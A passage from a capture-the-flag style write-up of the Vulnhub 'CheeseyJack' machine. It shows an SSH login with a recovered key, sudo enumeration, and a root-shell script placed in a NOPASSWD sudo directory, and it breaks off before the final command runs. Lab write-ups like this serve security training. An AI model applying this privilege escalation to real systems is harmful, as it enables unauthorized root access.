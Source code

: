 ```bash
└─$ nano priv.key 

┌──(emvee㉿kali)-[~/Documents/Vulnhub/CheeceyJack]
└─$ chmod 600 priv.key     
```

-----
## Privilege escalation
Time to try logging in with crab and the SSH key.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/CheeceyJack]
└─$ ssh crab@$ip -i priv.key                                                                     
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-48-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


86 updates can be installed immediately.
0 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Your Hardware Enablement Stack (HWE) is supported until April 2025.
Last login: Thu Sep 24 16:48:34 2020 from 172.16.24.128
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

crab@cheeseyjack:~$ 

```
We were able to successfully log in as a crab on the SSH service. Let's see if crab also has sudo rights.
```bash
crab@cheeseyjack:~$ sudo -l
Matching Defaults entries for crab on cheeseyjack:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User crab may run the following commands on cheeseyjack:
    (ALL : ALL) ALL
    (root) NOPASSWD: /home/crab/.bin/
crab@cheeseyjack:~$ 

```
We have sudo rights to everything in the following directory `/home/crab/.bin/`. Let's first see what's in this directory.
```bash
crab@cheeseyjack:~$ ls /home/crab/.bin/
ping
```
Let's create a bash script that starts an interactive shell. Then we need to set the permissions so that the file is executable. For convenience, I give all rights to everyone. This is not safe and you should not just do it in a production environment.
```bash
crab@cheeseyjack:~/.bin$ echo '/bin/bash -i' > root.sh
crab@cheeseyjack:~/.bin$ chmod 777 root.sh
```
Now that the file has the correct permissions we can run it as with sudo. If all goes well, an interactive shell will be started with elevated rights.
```bash
```